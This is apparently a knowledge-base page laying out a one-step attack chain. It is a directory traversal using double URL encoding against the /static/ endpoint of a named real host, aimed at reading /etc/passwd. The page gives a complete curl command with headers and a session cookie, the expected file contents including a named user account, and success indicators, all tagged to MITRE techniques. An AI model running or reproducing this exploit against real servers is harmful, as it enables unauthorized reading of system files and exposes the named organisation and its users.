

# Directory Traversal via Double-Encoded Paths to Read Sensitive System Files

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Web platform with a vulnerable static file serving endpoint
- Linux-based server (inferred from /etc/passwd access)
- Services: HTTP/HTTPS on port 443
- Tech stack: Potentially protected by Cloudflare

### Initial Access Requirements

- Public network access to the target URL (https://msg.algolia.com)
- No authentication required
- Basic knowledge of URL encoding and HTTP requests

## Detailed Attack Procedures

### Step 1: Exploit Path Traversal
procedure: [[procedures/Exploit-Path-Traversal-with-Double-URL-Encoding]]

**Objective**: Bypass path normalization in the /static/ endpoint using double-encoded '../' sequences to traverse to the root filesystem and read sensitive files like /etc/passwd, disclosing user account details.

**Instructions**: Craft and send an HTTP GET request with double URL encoding (%252f for '/') to evade single-level decoding. Use [[commands/curl-directory-traversal-double-encode]] to simulate the request:

```bash
curl -X GET "https://msg.algolia.com/static/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc/passwd" \
  -H "Host: msg.algolia.com" \
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" \
  -H "Cookie: __cfduid=d34587d94eba9413080d1f7aca5062a871522817854" \
  -H "Connection: close" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0" \
  -H "Accept-Encoding: gzip, deflate" \
  -H "Accept-Language: id,en-US;q=0.7,en;q=0.3" \
  -H "Upgrade-Insecure-Requests: 1" \
  --verbose
```

Validate the response contains file contents by checking for lines like 'root:x:0:0:root:/root:/bin/bash'.

**Expected Output**: HTTP response body with the contents of /etc/passwd, including user entries such as 'eranchetz:x:1001:1002::/home/eranchetz:/bin/bash'.

**Success Indicators**:
- Response status 200 OK with file contents instead of 404 or access denied
- Presence of system user lines (e.g., root, daemon) in the output
- No Cloudflare blocking or decoding failure

## Attack Chain Summary

### Key Achievements

1. Bypassed path normalization using double encoding to access root filesystem
2. Retrieved sensitive /etc/passwd file revealing usernames, UIDs, home directories, and shells
3. Demonstrated arbitrary file read capability on the server

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[File and Directory Discovery]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Discovery]]

---
*Last updated: 2023-10-01T00:00:00Z*
